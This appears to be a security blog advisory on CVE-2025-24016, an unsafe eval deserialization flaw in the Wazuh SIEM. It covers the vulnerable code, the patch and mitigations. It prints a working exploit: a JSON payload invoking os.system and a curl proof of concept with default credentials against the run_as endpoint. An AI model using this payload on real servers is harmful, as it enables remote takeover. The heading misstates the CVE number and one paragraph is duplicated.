 ```yaml
---
id: 2
title: "CVE-2025-24016: Unsafe Deserialization in Wazuh – RCE"
date: "March 27, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/blog_post_2_2.png"
authorQuote: "Stay Vigilant, Stay Secure"
---
```


![CVE-2025-24016](/assets/img/blog/blog_post_2_2.png)
### CVE-2025-2401: Unsafe Deserialization in Wazuh – RCE

### Description
Open-source Security Information and Event Management (SIEM) platform Wazuh suffers from CVE-2025-24016, which enables attackers to execute arbitrary code remotely on their servers.

Attackers who have API access can execute arbitrary Python commands on vulnerable servers through this vulnerability, which exists from version 4.4.0 up to 4.9.0. The `as_wazuh_object` function processes DistributedAPI (DAPI) request or response data that makes the vulnerability active. The vulnerability enables attackers to execute arbitrary Python code, resulting in system takeover, data breaches, and complete security damage to infrastructure.

The safe `ast.literal_eval` function change in version 4.9.1 enables vulnerability protection.
Open-source Security Information and Event Management (SIEM) platform Wazuh suffers from CVE-2025-24016 which enables attackers to execute arbitrary code remotely on their servers.

### Technical Breakdown

- **Affected Software:** Wazuh  
- **Affected Versions:** 4.4.0 to 4.9.0  
- **CVSSv3.1 Score:** 9.9 (Critical)  
- **CVSSv3.1 Vector:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:H/A:H`  
- **Affected Component:** `framework/wazuh/core/cluster/common.py`  
- **Attack Vector:** Network  
- **Privileges Required:** Low (API Access)  
- **User Interaction:** None  
- **Scope:** Changed  

The security problem resides inside the `as_wazuh_object` function within `framework/wazuh/core/cluster/common.py`. DAPI data serialization occurs through this function to process JSON data used for communication between Wazuh API, manager, and agents.

Before the implementation of the security patch the vulnerable code section appeared as follows:

```python
def as_wazuh_object(dct: Dict):
    try:
        if '__wazuh_datetime__' in dct:
            return datetime.datetime.fromisoformat(dct['__wazuh_datetime__'])
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
            return eval(exc_data['__class__'])(*exc_data['__args__']) # 🚨 VULNERABLE 🚨
        return dct
    except (KeyError, AttributeError):
        return dct
```

The code checks if the dictionary `dct` contains the key `__unhandled_exc__`. A valid dictionary value for `__unhandled_exc__` enables the code to obtain class and args values before implementing `eval` to create an instance of `__class__` with arguments `__args__`. Evaluating untrusted data means exposing the system to severe Python code execution since attackers control it.

### Affected Component Analysis
CVE-2025-24016 occurs because `eval` operates on every data string received from the Distributed API for serialization. Evaluation functions in Python enable execution of arbitrary program code so this creates a major security threat to users.
The vulnerability can be abused by attackers who create specific malicious JSON data including the `unhandled_exc` dictionary entry. A specifically constructed dictionary within the Python class gets passed to the `eval` function allowing server-execution of arbitrary code.
The vulnerability appears because the `as_wazuh_object` function fails to properly clean or check incoming data before sending it to evaluation. Attackers can execute remote code by placing their own code into the `class` and `args` fields because this vulnerability allows control over these parameters.

An attacker can send the following JSON payload:
```json
{
    "__unhandled_exc__": {
        "__class__": "os.system",
        "__args__": ["touch /tmp/pwn.txt"]
    }
}
```
The execution of `eval` within `as_wazuh_object` produces a system call of `os.system("touch /tmp/pwn.txt")`, leading to the creation of a file named `/tmp/pwn.txt` on the Wazuh server.

### Exploitation Techniques
Exploiting this vulnerability requires API access, which attackers can obtain through compromised dashboards, agents, or weak credentials.

A proof-of-concept (PoC) demonstrates how exploitation can be carried out via the run_as endpoint:
```sh
curl -X POST -k -u "wazuh-wui:MyS3cr37P450r.*-" -H "Content-Type: application/json" \  
--data '{"__unhandled_exc__":{"__class__": "os.system", "__args__": ["touch /tmp/pwn.txt"]}}' \  
https://<worker-server>:55000/security/user/authenticate/run_as
```
**Explanation of the Exploit:**
- **`-X POST`** – Specifies the HTTP method as **POST**.  
- **`-k`** – Disables SSL certificate verification (useful for testing in environments with self-signed certificates).  
- **`-u "wazuh-wui:MyS3cr37P450r.*-"`** – Provides authentication credentials (**default credentials are used here, which should be changed for security**).  
- **`-H "Content-Type: application/json"`** – Sets the `Content-Type` header to `application/json` to indicate the request body format.  
- **`--data '{"__unhandled_exc__":{"__class__": "os.system", "__args__": ["touch /tmp/pwn.txt"]}}'`** – Injects the malicious JSON payload, which executes the command `touch /tmp/pwn.txt` on the Wazuh server, demonstrating arbitrary code execution.  
- **`https://<worker-server>:55000/security/user/authenticate/run_as`** – Specifies the `run_as` endpoint URL. Replace `<worker-server>` with the actual hostname or IP address of the Wazuh worker server.  

A successful attack grants the following capabilities:

- **Full system control** – Attackers can install malware, modify configurations, or exfiltrate sensitive data.
- **Lateral movement** – The compromised Wazuh server can be used for spreading across networks.
- **Monitoring disruption** – Security alerts can be disabled, allowing attackers to operate undetected.

### Patch Analysis
Wazuh resolved this vulnerability in version 4.9.1 by replacing `eval` with `ast.literal_eval`, which securely evaluates literals without allowing arbitrary code execution.

Here is the relevant code modification in `framework/wazuh/core/cluster/common.py`:

```python
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
-            return eval(exc_data['__class__'])(*exc_data['__args__'])
+            exc_dict = {exc_data['__class__']: exc_data['__args__']}
+            return ast.literal_eval(json.dumps(exc_dict))
        return dct
```
The patch mitigates the vulnerability by replacing the unsafe `eval` function with `ast.literal_eval`. Unlike `eval`, `ast.literal_eval` only processes Python literals, eliminating arbitrary code execution risks.

### Mitigation Strategies
To reduce the risk associated with this vulnerability, organizations should implement the following security measures:

- **Upgrade to Wazuh 4.9.1 or later** – This version includes the necessary patch to fix the vulnerability.
- **Restrict API access** – Limit API usage to only authorized users and trusted systems.
- **Temporary workarounds** – Deploy Web Application Firewalls (WAFs) to block requests containing `__unhandled_exc__`.
- **Monitor API traffic** – Continuously track API activity for unusual behavior, such as unexpected requests or large data transfers.
- **Regularly update security configurations** – Ensure that Wazuh security settings are current and properly configured.

### References
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-24016)
- [GitHub Advisory](https://github.com/wazuh/wazuh/security/advisories/GHSA-hcrc-79hj-m3qh)
- [GitHub Repository (PoC)](https://github.com/0xjessie21/CVE-2025-24016)
- [SonicWall Blog](https://www.sonicwall.com/blog/critical-wazuh-rce-vulnerability-cve-2025-24016-risks-exploits-and-remediation)
- [SecurityOnline.info](https://securityonline.info/cve-2025-24016-cvss-9-9-critical-rce-vulnerability-discovered-in-wazuh-server/)
- [Recorded Future](https://www.recordedfuture.com/vulnerability-database/CVE-2025-24016)

